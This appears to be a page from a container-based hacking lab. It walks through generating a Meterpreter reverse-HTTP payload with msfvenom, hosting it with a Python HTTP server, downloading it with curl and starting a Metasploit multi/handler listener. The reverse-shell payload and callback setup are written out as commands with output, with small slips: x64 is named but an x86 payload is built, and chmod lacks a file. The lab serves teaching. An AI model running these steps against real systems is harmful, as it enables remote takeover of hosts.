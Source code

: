```yaml
---
id: prepare_hack
title: Setting up the payload
sidebar_label: Set up the payload
---
```


## Creating a payload

In order to hack the system, we first need to generate a payload that will allow us to get a reverse shell on the target host.
Since the host we will be targetting is an amd64 system, we need to use the `linux/x64/meterpreter_reverse_http` payload.
We also need to configure the payload with the address it will need to connect back to, to establish the reverse shell, in this case the ip that resolves to `kali.container.shipyard.run` and port 9999.

We can do this by running `msfvenom` with our payload, the host and port we will be listening on, and the format we want the payload to be in.

```shell
┌──(root💀kali)-[/]
└─$ msfvenom -p linux/x86/meterpreter_reverse_http LHOST=$(dig +short kali.container.shipyard.run) LPORT=9999 -f elf > payload

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 1097244 bytes
Final size of elf file: 1097244 bytes
```

Let's double check that the payload is correctly generated, by making it executable and running it.

```shell
┌──(root💀kali)-[/]
└─$ chmod +x
```

```shell
┌──(root💀kali)-[/]
└─$ ./payload

^C
```

We should not see any output. But no errors mean it will run correctly.  
Exit out of the process with CTRL+C.

## Serving the payload

In order for our target to be able to execute the payload, we need to host it somewhere where it can be downloaded.
An easy way to serve files is by using the Python3 http.server module.

```shell
┌──(root💀kali)-[/]
└─$ python3 -m http.server &> /dev/null &

[1] 1556
```

By default it serves all the files in the current directory on port 8000.
If we wanted to download the payload file somewhere, we can do so by browsing to `http://10.5.0.2:8000/payload`.

```shell
curl http://10.5.0.2:8000/payload -o payload
```

## Start the reverse handler

Now that we have a payload and it is hosted somewhere, we need to start a listener to receive the incoming connections. We will be using meterpreter to do this.

Let's start the metasploit framework console.

```shell
┌──(root💀kali)-[/]
└─$ msfconsole

[*] Starting the Metasploit Framework console.../
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
[% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
[% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
[% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.0.15-dev                          ]
+ -- --=[ 2071 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it with setg RHOSTS x.x.x.x

msf6 >
```

Now that we are in the Metasploit console, let's verify that everything is running correctly.

```shell
msf6 > db_status

[*] Connected to msf. Connection type: postgresql.
```

Launch the multi/handler, which is a stub that handles exploits launched outside of the framework.

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
```

Now we need to set some parameters before we start our local listener.  
We need to set the payload we want to use.

```shell
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter_reverse_http

PAYLOAD => linux/x86/meterpreter_reverse_http
```

The address we want to have our reverse handler listening on.

```shell
msf6 exploit(multi/handler) > set LHOST 0.0.0.0

LHOST => 0.0.0.0
```

And the port the reverse handler should listen on.

```shell
msf6 exploit(multi/handler) > set LPORT 9999

LPORT => 9999
```

We can then start the reverse handler.

```shell
msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://0.0.0.0:9999
```

Now that we have the reverse handler running, we can execute the hack on the remote system.
